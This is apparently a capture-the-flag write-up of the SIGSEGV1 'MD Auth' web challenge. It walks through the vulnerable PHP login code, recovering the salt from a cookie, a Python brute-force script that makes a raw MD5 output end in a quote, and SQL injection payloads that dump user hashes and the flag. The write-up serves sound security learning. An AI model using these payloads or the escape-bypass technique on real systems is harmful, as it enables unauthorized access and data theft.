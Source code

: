 +++
title = "SIGSEGV1 Writeup - MD Auth"
date = "2018-12-23"
description = ""
[extra]
cover.image = "images/sigsegv1.png"
cover.alt = "SIGSEGV1 Writeup - MD Auth"
+++

Let's talk about the "MD Auth" challenge, I admit I started with this challenge thinking it would be about "Markdown". I was wrong but it was nonetheless interesting to solve.

<!--more-->

The source code of the index was available by requesting : [http://finale-docker.rtfm.re:4444/?source](http://finale-docker.rtfm.re:4444/?source)

```php
<?php
$_TITLE = 'MD Auth';
$_LONGTITLE = 'MD Auth';
$con = new SQLite3('mdauth.db');

require 'config.php'; # 7-digit APP_SALT, MAX_ERRORS and check_errors()
if(isset($_POST['login'], $_POST['password'])) {
    $errors = isset($_COOKIE['signed_errors']) ? check_errors($_COOKIE['signed_errors']) : 0;
    if($errors >= MAX_ERRORS) {
        presult('You have been banned for reaching '.MAX_ERRORS.' errors');
    } else {
        $login = $con->escapeString($_POST['login']);
        $hash = md5($con->escapeString(APP_SALT.$_POST['password']), true);
        $query = $con->query("SELECT login FROM users WHERE hash='{$hash}' and login='{$login}'");
        if(!$query) $row=FALSE; 
        else $row = $query->fetchArray();

        if($row !== FALSE&& $query->fetchArray() === FALSE) {
            presult("Welcome back {$row['login']}!");
        } else {
            presult('Wrong username/password combination!');
            setcookie('signed_errors', md5(APP_SALT.((string) ($errors+1))), time()+86400);
        }
    }
```

At first I tried to access the database with my browser by requesting [finale-docker.rtfm.re:4444/mdauth.db](finale-docker.rtfm.re:4444/mdauth.db), unfortunately that didn't work. Let's dig deeper into the source code. We want to authenticate on the Web Application, maybe we can do an SQL injection inside the following query.

```sql
SELECT login FROM users WHERE hash='{$hash}' and login='{$login}'
```

In order to exploit this, we need to bypass the `escapeString` function used for `$login` and `$hash`.

```php
<?php
$login = $con->escapeString($_POST['login']);
$hash = md5($con->escapeString(APP_SALT.$_POST['password']), true);
?>
```

The `md5` function is called with the second argument set to `true`, meaning we will get a binary output instead of a hexadecimal one. We might be able to get a backslash in the binary output, but we need to know the `APP_SALT` value in order to do our offline bruteforce. The author of the challenge was kind enough to provide a way to get this secret by misusing the `cookie`.

```php
<?php
setcookie('signed_errors', md5(APP_SALT.((string) ($errors+1))), time()+86400);
?>
```

We can do a single failed attempt in order to get a cookie containing the md5(SALT+"1"), based on the comment in the code we know the SALT is between 0000000-9999999 (7-digit APP_SALT). 

I got `MD5:4322dfb1e9b20645594e9f3f6998845a` which correspond to the following `PLAIN:86203711`. We now have our APP_SALT value : 8620371. The following script will bruteforce the first 1000 numbers looking for a quote in the last char of the MD5 output.

```python
import requests
import hashlib

# md5 true : http://cvk.posthaven.com/sql-injection-with-raw-md5-hashes
def computeMD5hash(my_string):
    m = hashlib.md5()
    m.update(my_string.encode('utf-8'))
    return m.digest()

# Use the salt to find a string ending by "\"
salt = "8620371"
for i in range(1000):
    md5 = computeMD5hash(salt+str(i))
    if "\\" == md5[-1]:
        print(salt+str(i), i,  md5)
```

In my first attempt, I was looking for a backslash "\" in order to escape the single quote "'" from the query and use the login to complete the SQL injection.

```sql
SELECT login FROM users WHERE hash='{$hash}' and login='{$login}'
SELECT login FROM users WHERE hash='GARBAGE\' and login=' OR 1=1--' 
```

It would have worked in a MySQL database, unfortunately we were in front of a SQLite one. The documentation and stackoverflow provided the useful information, escaping is done by doubling the quote.

```sql
INSERT INTO table_name (field1, field2) VALUES (123, 'Hello there''s');
```

I adjusted the script to check for a single quote and got the number `45`.

```python
salt = "8620371"
for i in range(1000):
    md5 = computeMD5hash(salt+str(i))
    if "'" == md5[-1]:
        print(salt+str(i), i,  md5)
```

Now it's just a simple SQL injection, by using the following credential i was able to extract interesting data.

```sql
login = "union all select hash from users limit 1--"
password = "45"

The query looked like "SELECT login FROM users WHERE hash='GARBAGE'' and login=' union all select hash from users limit 1--'"
with hash='GARBAGE'' and login='
```

I got the following users : `admin` and `flaggy`. Next step was to extract the flag from the database, it was located in the flag_field of the users.

```bash
union all select flag_field from users limit 2,1--
Welcome back sigsegv{82e9f4a155b9b740b4ff37624429b031}!
```